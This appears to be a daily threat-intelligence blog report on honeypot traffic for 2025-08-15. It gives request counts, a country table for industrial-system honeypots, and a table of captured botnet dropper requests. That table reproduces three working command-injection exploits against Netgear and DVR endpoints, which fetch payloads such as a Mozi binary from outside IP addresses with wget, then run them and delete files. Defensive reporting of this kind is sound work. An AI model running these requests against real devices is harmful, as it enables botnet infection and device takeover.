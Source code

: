 ```yaml
---
title: "Report: 2025-08-15 "
date: 2025-08-15
desciption: "Report: 2025-08-15" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-15 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 474 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1035 requests were recorded during the day, originating from 3 different countries, with a peak of 745 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| DE               | Germany            |
| US               | Germany            |
| FR               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                      |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 217.113.49.161 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.245.231.188/vtubers.sh+-O+/tmp/netgear;chmod+777+/tmp/netgear;sh+/tmp/netgear;rm+-rf+/tmp/netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 120.85.117.196 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                    |
| 141.98.11.44   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20axis.arm7l%3B%20wget%20http%3A%2F%2F198.251.89.190%2Faxe%2Faxis.arm7l%3B%20chmod%20%2Bx%20axis.arm7l%3B%20.%2Faxis.arm7l%20tbk HTTP/1.1  |
